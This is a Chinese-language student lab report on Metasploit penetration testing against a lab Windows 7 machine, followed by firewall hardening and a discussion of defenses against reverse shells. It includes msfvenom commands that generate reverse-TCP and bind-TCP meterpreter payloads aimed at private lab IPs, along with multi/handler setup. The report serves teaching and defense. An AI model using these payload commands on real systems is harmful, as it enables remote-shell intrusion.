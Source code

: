 # 网络安全实验Day2: Metasploit渗透测试与系统加固

## 1. 实验目的
- 掌握Metasploit payload生成与handler配置
- 理解正向连接与反向连接的区别与应用场景
- 学习基础的系统安全加固方法
- 思考实际渗透测试中的攻击与防御策略

## 2. 环境准备
- Kali Linux作为攻击机
- vulnstack-win7作为目标机
- 
## 3. 实验步骤详解
### 3.1 Payload生成
使用msfvenom生成反向TCP Shell payload...
命令示例: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.23.128 LPORT=888 -f exe -o payload.exe`
[!](./images/p1.png)
[!](./images/p2.png)
[!](./images/p3.png)
### 3.2 Handler配置
在Metasploit中配置multi/handler模块...
命令序列: `use exploit/multi/handler` -> `set payload ...`
利用msfconsole 搜索端口
[!](./images/p4.png)
[!](./images/p5.png)
[!](./images/p6.png)
[!](./images/p7.png)
[!](./images/p8.png)
set
[!](./images/p9.png)
## 3.3 对目标主机进行安全加固
- 建立新的入站规则和出站规则
[！](./images/p10.png)
[！](./images/p11.png)
[！](./images/p12.png)
[！](./images/p13.png)
生成正向shell
## 3.1 实验步骤详解
### 3.1 Payload生成
使用msfvenom生成正向TCP Shell payload...
命令示例: `msfvenom -p windows/x64/meterpreter/bind_tcp HOST=192.168.101.12 LPORT=888 -f exe -o payload.exe`
[!](./images/n1.png)
[!](./images/p2.png)
[!](./images/p3.png)
### 3.2 Handler配置
在Metasploit中配置multi/handler模块...
命令序列: `use exploit/multi/handler` -> `set payload ...`
利用msfconsole 搜索端口
[!](./images/p4.png)
[!](./images/p5.png)
[!](./images/p6.png)
[!](./images/p7.png)
set 192.168.101.12
set 4444
[!](./images/p8.png)
[!](./images/p9.png)
## 3.3 对目标主机进行安全加固
- 建立新的入站规则和出站规则
[！](./images/p10.png)
[！](./images/p11.png)
[！](./images/p12.png)
[！](./images/p13.png)
## 4实验思考
## 1.在真实渗透测试中，什么场景下适合正向shell？
正向Shell适用场景：

    ▪ 攻击者可以直接访问目标主机所在的网络，并且目标主机开放了可以被攻击者利用的端口。例如，在一些小型的、没有复杂网络安全防护的局域网环境中，攻击者已经获得了局域网内的一个跳板机，并且目标主机开放了3389等远程连接端口，攻击者可以直接通过正向连接的方式获取目标主机的Shell。

    ▪ 当目标主机配置了允许外部连接的特定服务（如Web服务存在漏洞可被利用来获取Shell），并且攻击者能够直接与该服务建立连接时，适合使用正向Shell。
## 什么情况下适合反向shell？
反向Shell适用场景：

    ▪ 目标主机处于内网，且无法直接从外部访问（即存在NAT或防火墙限制了外部对内部的连接）。此时，目标主机主动连接到攻击者控制的公网服务器，建立起反向连接，使得攻击者能够获取目标主机的Shell权限。例如，企业内部员工电脑处于内网环境，攻击者通过钓鱼等方式让员工电脑运行包含反向Shell代码的程序，从而突破内网限制连接到攻击者的服务器。

    ▪ 当攻击者希望隐藏自己的真实IP地址时，也可以使用反向Shell。因为连接是从目标主机发起的，从网络流量角度看，是目标主机主动与攻击者的服务器通信，可能会误导安全人员对攻击源的判断。

## 2.仅通过配置出站规则能否有效预防所有反向链接 为什么？
  不能有效防御所有反向连接。
  原因如下：
    ▪ 加密连接：如果反向连接使用了加密协议（如HTTPS、SSH隧道等），防火墙仅检查网络层和传输层的出站规则，无法解析加密的应用层数据内容，也就无法识别这些连接是否为恶意的反向Shell连接。例如，攻击者可以通过将反向Shell封装在HTTPS流量中，绕过基于端口和简单协议特征检查的出站规则。

    ▪ 端口复用：攻击者可能利用合法服务常用的端口进行反向连接，由于出站规则通常是基于端口号和协议来配置的，当反向连接使用了与合法服务相同的端口时，防火墙可能会将其误认为是正常的出站流量而放行。比如，攻击者将反向Shell连接伪装成HTTP流量，使用80端口进行连接，如果出站规则只简单地禁止了一些非HTTP常用端口的出站连接，就无法阻止这种恶意连接。

    ▪ 应用层协议漏洞：某些应用层协议存在漏洞，攻击者可以利用这些漏洞绕过出站规则。例如，在一些自定义的应用程序中，如果其网络通信部分存在逻辑漏洞，攻击者可能通过构造特殊的请求，以应用程序正常通信的名义建立反向连接，而出站规则无法对这些应用层协议的细节进行全面检查。
## 3.除了基于端口的防火墙规则，还有哪些更高级的加固手段可以预防此类攻击？
入侵检测/防御系统（IDS/IPS）：部署IDS/IPS设备，它们可以对网络流量进行深度包检测（DPI），识别出异常的流量模式和攻击特征。例如，当检测到有大量来自内网的异常连接尝试访问外部的特定IP地址（可能是攻击者的服务器），或者检测到符合已知攻击模式的反向Shell流量时，IDS可以发出警报，IPS则可以直接阻断这些流量。

  ◦ 应用程序白名单：只允许运行经过授权的应用程序，禁止运行未知来源的可执行文件。这样可以防止攻击者通过植入恶意程序来建立反向Shell连接。例如，在企业环境中，通过组策略等方式配置应用程序白名单，只有像Microsoft Office、Adobe Reader等经过批准的软件才能在员工的电脑上运行。

  ◦ 网络分段：将网络划分为多个不同的子网，每个子网具有不同的访问权限和安全级别。通过限制不同子网之间的访问，即使某个子网中的一台主机被攻陷，攻击者也难以轻易地从该子网扩展到其他子网。例如，将企业的办公网络划分为研发子网、财务子网、市场子网等，限制它们之间的不必要访问，从而减少攻击面。

  ◦ 双因素认证（2FA）：对于重要的系统和应用程序，启用双因素认证。即使攻击者获取了用户的用户名和密码，没有第二重认证因素（如手机验证码、硬件令牌等），也无法登录系统，从而降低了攻击者通过窃取凭证建立反向Shell的可能性。

  ◦ 安全意识培训：对员工进行网络安全意识培训，教育他们识别钓鱼邮件、恶意链接和附件等常见的攻击手段。因为很多反向Shell攻击都是通过社会工程学手段，诱使用户运行恶意程序来实现的。例如，培训员工不要随意点击来自不明来源的邮件链接或下载附件，提高他们对网络安全风险的认识和防范能力。
## 6. 实验收获
- 学习到了实用的渗透测试技巧
- 理解了防火墙策略的重要性
- 认识到安全加固的多层次性
